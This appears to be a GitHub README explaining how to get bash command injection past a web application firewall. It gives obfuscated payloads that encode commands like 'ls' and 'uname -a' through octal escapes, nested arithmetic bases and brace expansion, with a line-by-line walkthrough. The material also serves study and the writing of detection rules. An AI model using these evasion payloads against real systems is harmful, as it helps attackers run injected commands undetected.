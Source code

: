 # Bash-Command-Injection
Bash Command Injection WAF Bypass

<img src="bash command injection waf bypass.png" align="center">

- [ASCII -> Octal](https://onlineasciitools.com/convert-ascii-to-octal)
- [Decimal -> Binary](https://www.rapidtables.com/convert/number/decimal-to-binary.html)

> Using a **comma** `,` from **Brace Expansion** so they act like a **space**. <br>

<br>

> The reason why we use **Brace Expansion**:
```console
$ echo {ola,mundo}
ola mundo
```

<br>

> `uname -a`: <br>
```bash
${!##\-}<<<{\$\'\\$(($((1<<1))#10100101))\\$(($((1<<1))#10011100))\\$(($((1<<1))#10001101))\\$(($((1<<1))#10011011))\\$(($((1<<1))#10010001))\',\$\'\\$(($((1<<1))#110111))\\$(($((1<<1))#10001101))\'}
```
> In short, this is what's happening: ([Click to see full explanation](#explicação-em-inglês))
- `{\$\'command-1\',\$\'command-2\'}`

<br>

<hr>

<br>

### Full Explanation:

```bash
### idea: @sirifu4k1

# My final payload:
# ${0##\-}<<<$\'\\$(($((1<<1))#10011010))\\$(($((1<<1))#10100011))\'
# Let's understand what the hell is happening here.

## 1.1: ${0##\-}
# ${} is a parameter expansion; "$0" == is the first parameter, which is the script itself.
# Since we're "executing" "$0" straight on the shell, the program that is getting executed is bash
# But on my shell, bash had a little "-" dash sign next to the "b" letter of bash, so I removed it
# using parameter expansion (${0##\-} == removes the dash "-" from "-bash", and we're left with "bash")

## 1.2: <<<
# A "Here String" is used for input redirection from text or a variable.
# For example: (counting the words of a given file called about.txt)
$ wc -l <<< about.txt
1 # (output as an example)

## 1.3: $\' ... \'
# First of all, "$'Something\nSomething-else'" causes escape sequences to be interpreted.
# So we can call an octal to be interpreted to text, just like so (154 in octal == l; 163 in octal == s):
$'\154\163'

# Another example:
$'\151\144' # 151 == i; 144 == d (id gets interpreted as a command)

## 1.4: \\$(( $(( 1 << 1 ))#10011010)) \\$(( $(( 1 << 1))#10100011 ))
# $(()) == POSIX arithmetic expansion
# Note: (man bash)
# Words of the form $'string' are treated specially. The word expands to
# string, with backslash-escaped characters replaced as specified by the ANSI C
# standard.

# Note:
# The "\\" (double backslash) characters are necessary in order to force the shell to pass
# a "\$" (single backslash, dollar sign) to the arithmetic expansion.

### 2.4: $(( $((1<<1))#10011010 ))
# 1<<1 == 2
# base#number == performing calculations between different arithmetic bases [base#]number
#                base is a decimal integer between 2 and 36 that specifies the arithmetic base. (default is base 10)

# Enclosing two arithmetic expansion inside of each other, so that 2#10011010 (octal "154" to binary is "10011010") is equal to 154 (octal)
# Text to octal: "http://www.unit-conversion.info/texttools/octal/"
# Decimal to binary: "https://www.rapidtables.com/convert/number/decimal-to-binary.html"
# 167 150 157 :: 10100111 = w; 10010110 = h; 10011101 = o

### 3.4: $(( $((1<<1))#10100011 ))
# Is exatcly the same concept as I mentioned previously (at 2.4), and we're left with 163 (octal)

# Conclusion:
# This whole mess will give us the result $'\154\163', which is "ls"

# Image explanation, by @sirifu4k1
# https://pbs.twimg.com/media/FqJd-irakAEBPh_.jpg


# Bonus without using numbers:
# ${0##\-}<<<$\'\\$(($((${##}<<${##}))#${##}${#}${#}${##}${##}${#}${##}${#}))\\$(($((${##}<<${##}))#${##}${#}${##}${#}${#}${#}${##}${##}))\'
                                        ^ 10011010                                                   ^ 10100011

${##} == 1
${#}  == 0

echo -ne "${##}${#}${#}${##}${##}${#}${##}${#} ${##}${#}${##}${#}${#}${#}${##}${##}\n"
```
